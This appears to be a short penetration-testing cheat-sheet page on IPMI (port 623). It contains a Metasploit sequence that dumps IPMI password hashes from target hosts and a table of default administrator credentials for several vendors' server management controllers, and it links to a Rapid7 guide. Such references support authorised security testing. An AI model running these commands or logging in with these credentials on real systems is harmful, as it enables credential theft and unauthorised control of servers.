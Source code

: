 ```yaml
---
description: >-
  Intelligent Platform Management Interface (IPMI)  is a set of computer
  interface specifications for an autonomous computer subsystem that provides
  management and monitoring capabilities independently.
---
```


# 623 - IPMI

### Metasploit

```text
use auxiliary/scanner/ipmi/ipmi_dumphashes 
set rhosts [TARGETS] 
run 
```

### Common default credentials

| Product Name  | Default Username  | Default Password  |
| :--- | :--- | :--- |
| HP Integrated Lights Out \(iLO\)  | Administrator  | &lt;factory randomized 8-character string&gt;  |
| Dell Remote Access Card \(iDRAC, DRAC\)  | root  | calvin  |
| IBM Integrated Management Module \(IMM\)  | USERID  | PASSW0RD \(with a zero\)  |
| Fujitsu Integrated Remote Management Controller  | admin  | admin  |
| Supermicro IPMI \(2.0\)  | ADMIN  | ADMIN  |
| Oracle/Sun Integrated Lights Out Manager \(ILOM\)  | root  | changeme  |
| ASUS iKVM BMC  | admin  | admin  |

Resources: 

[https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/](https://blog.rapid7.com/2013/07/02/a-penetration-testers-guide-to-ipmi/) 

